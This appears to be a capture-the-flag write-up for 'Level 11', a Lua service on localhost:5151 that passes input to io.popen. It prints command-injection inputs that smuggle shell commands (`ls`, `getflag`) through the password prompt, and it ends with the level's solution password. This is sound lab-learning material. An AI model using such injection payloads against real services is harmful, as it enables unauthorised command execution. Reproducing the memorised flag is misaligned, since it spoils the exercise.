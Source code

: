 # LEVEL 11

## 💡 Explanation

In this level we have to:
1. Check the permissions of level11.lua
2. Check the code => we see that it opens a socket on localhost:5151
3. When we launch it, it give an error saying that the address is not available, but we cannot see anything with `netstat`, it should be another user (probs flag11) who is running it.
4. If the open a listener on the port 5151 it replies asking for the password so the program it is being executed in the background!
5. Now we need to understand how to exploit it => It uses the function `io.popen`, which executes a command!!
6. The command it is using concatenates an `echo` with the input we give and then it pipes it to a `sha1sum`. Voilà

What helped A LOT was to write a lot of prints in between and do another code and also luch it in the backgroup with another port, so I could test everything 😊 => `alias lua=/Users/cristina/Downloads/lua-5.4.4/src/lua` and `lua level11_cristina.lua`

## 👾 Commands

To find the solution:
```
la -la level11.lua
./level11.lua
netstat -ltnp | grep -w ':5151'
scp -P 4242 level11@192.168.56.3:/home/user/level11/level11.lua .
nc localhost 5151
Password: 
Password: a => Checked with sha1sum
Password: ; echo `ls`; echo lol
```

To exploit the security hole:
- `rm -rf /tmp/flag`
- `nc localhost 5151`
- `o; echo 'getflag' > /tmp/flag; echo lol`  (*)
<!-- - `o; echo `getflag` > /tmp/flag; echo lol`  (*) -->
- `cat /tmp/flag`

(*) Be careful with the quotes on que second command, it should be (`) instead of (').

## 🔍 Resources

- [Address already in use while binding socket](https://stackoverflow.com/questions/5106674/error-address-already-in-use-while-binding-socket-with-address-but-the-port-num)
- [Find out used ports](https://www.tecmint.com/find-out-which-process-listening-on-a-particular-port/)
- [Install sha1sum](https://command-not-found.com/sha1sum)
- [Lua - Online demo](https://www.lua.org/cgi-bin/demo)
- [Lua - Download](http://www.lua.org/download.html)
- [Lua - Conditions](https://craftstudio.fandom.com/fr/wiki/Tutoriels/Apprendre_%C3%A0_programmer_en_Lua/Les_conditions#:~:text=Le%20If%20est%20la%20structure,plac%C3%A9e%20entre%20then%20et%20end.)
- [Lua - Concatenation](https://www.lua.org/pil/3.4.html)
- [Lua - io.open](https://www.tutorialspoint.com/lua/lua_file_io.htm)
- [Lua - io.read](http://www.lua.org/pil/21.1.html)
- [Lua - io.popen](https://www.tutorialspoint.com/io-popen-function-in-lua-programming)

## 🔥 Password
`fa6v5ateaw21peobuub8ipe6s`
